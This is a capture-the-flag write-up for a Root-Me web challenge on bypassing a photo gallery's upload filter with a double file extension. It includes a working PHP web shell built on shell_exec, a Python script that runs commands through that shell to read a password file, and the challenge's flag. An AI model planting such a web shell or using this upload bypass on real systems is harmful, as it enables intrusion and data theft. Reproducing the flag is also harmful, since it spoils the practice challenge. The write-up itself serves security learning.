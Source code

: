 ```yaml
---
title: File upload - Double extensions
author: thanguyen165
date: 2023-01-02 07:00:00 +0700
categories: [Practice, rootme]
tags: [Web Exploitation, File upload vulnerabilities]
---
```


* Points: 20
* Link: [https://www.root-me.org/en/Challenges/Web-Server/File-upload-Double-extensions](https://www.root-me.org/en/Challenges/Web-Server/File-upload-Double-extensions)

## Statement

> Your goal is to hack this photo galery by uploading PHP code.
>
> Retrieve the validation password in the file .passwd at the root of the application.

## Solution

Just write a normal php code

```php
<?php
$command = $_GET['command'];
$output = shell_exec($command);
echo "<p> $output <p>";
?>
```
{: file="exploitit.php" }

Then change its name to ```exploitit.php.jpg``` and upload to server.

Then call it by

```py
import requests

URL =  'http://challenge01.root-me.org/web-serveur/ch20/galerie/upload/694193751d4a423a2179aadef22b5be4/exploitit.php.jpg?command={}'

command = "cd ../../../; cat .passwd"

r = requests.get(URL.format(command))
print(r.text)
```

Note that ```.passwd``` is at challenge's root, not system's root, so ```cat /.passwd``` wont work!

The flag is
```
Gg9LRz-hWSxqqUKd77-_q-6G8
```